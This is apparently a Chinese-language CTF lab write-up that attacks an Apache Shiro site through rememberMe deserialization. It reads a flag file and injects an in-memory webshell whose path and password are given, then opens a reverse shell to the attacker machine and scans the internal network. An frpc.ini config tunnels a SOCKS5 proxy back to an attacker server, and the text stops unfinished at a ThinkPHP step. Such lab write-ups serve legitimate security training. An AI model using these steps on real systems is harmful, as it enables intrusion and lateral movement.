







# Puff-Pastry WriteUp

:::info 内网工具
这里 WriteUp 使用了 frp 进行内网代理搭建，如果使用其他工具，请自行调整
:::

在靶场部署完成后，访问宿主机的 8080 端口，应该可以访问到站点：



## web-shiro

使用 Shiro 反序列化工具进行扫描探测，发现可以发起攻击



### 通过 Shiro remember 反序列化进行 RCE 攻击

直接使用工具执行指令：

```shell
$ whoami;cat /flag.txt

root
WSS-Studio{Shiro-ad45528d-3341-41bc-8e68-7eb5b33e961c}
```

并注入内存马



```plaintext
蚁剑 [Servlet]  注入成功!
路径：http://192.168.163.128:8080/favicondemo.ico
密码：pass1024
```

使用蚁剑进行连接，确认 webshell 工作正常



直接使用 As-Exploits 反弹 shell 到攻击机，借助 pwncat-cs 持久化获得 shell



pwncat-cs 成功得到反弹的 shell，彻底拿下 web-shiro



### 内网横向

获取当前容器的网络信息

```plaintext
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.2  netmask 255.255.255.0  broadcast 192.168.100.255
        ether 02:42:c0:a8:64:02  txqueuelen 0  (Ethernet)
        RX packets 8332  bytes 21683368 (20.6 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8718  bytes 1498028 (1.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9528  bytes 3199568 (3.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9528  bytes 3199568 (3.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

使用 fscan，进行内网扫描

```plaintext
[*] WebTitle: http://192.168.100.2:8080 code:302 len:0      title:None 跳转url: http://192.168.100.2:8080/login;jsessionid=0E710FB1776734553142BAD69EC52670
[*] WebTitle: http://192.168.100.3      code:200 len:931    title:None
[*] WebTitle: http://192.168.100.2:8080/login;jsessionid=0E710FB1776734553142BAD69EC52670 code:200 len:2608   title:Login Page
[*] WebTitle: https://192.168.100.1:9443 code:200 len:18201  title:Portainer
[*] WebTitle: http://192.168.100.1:8080 code:302 len:0      title:None 跳转url: http://192.168.100.1:8080/login;jsessionid=12A9CF68B8FCAFCD9C2BE709E3C95D60
[*] WebTitle: http://192.168.100.1:9000 code:200 len:18201  title:Portainer
[*] WebTitle: http://192.168.100.1:8080/login;jsessionid=12A9CF68B8FCAFCD9C2BE709E3C95D60 code:200 len:2608   title:Login Page
[+] InfoScan:https://192.168.100.1:9443 [Portainer(Docker管理)] 
[+] InfoScan:http://192.168.100.1:9000 [Portainer(Docker管理)] 
[+] http://192.168.100.3 poc-yaml-php-cgi-cve-2012-1823 
[+] http://192.168.100.1:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
[+] http://192.168.100.2:8080/ poc-yaml-shiro-key [{key kPH+bIxk5D2deZiIxcaaaA==} {mode cbc}]
[+] http://192.168.100.3 poc-yaml-thinkphp5023-method-rce poc1
```

获得下一个容器的漏洞信息：

```plaintext
http://192.168.100.3 poc-yaml-thinkphp5023-method-rce poc1
```

上传 frp 后，搭建代理

```ini
# frpc.ini
[common]
server_addr = 192.168.163.133
server_port = 10000

[socks1]
type = tcp
remote_port = 11000
plugin = socks5
plugin_user = admin
plugin_passwd = password
use_encryption = true
use_compression = true

[portforward]
type = tcp
local_ip = 127.0.0.1
remote_port = 6000
local_port = 20000
```

## web-thinkphp

通过代理，成功访问到 web-thinkphp 的站点



使用 ThinkPHP RCE 工具进行攻击

TODO 没写完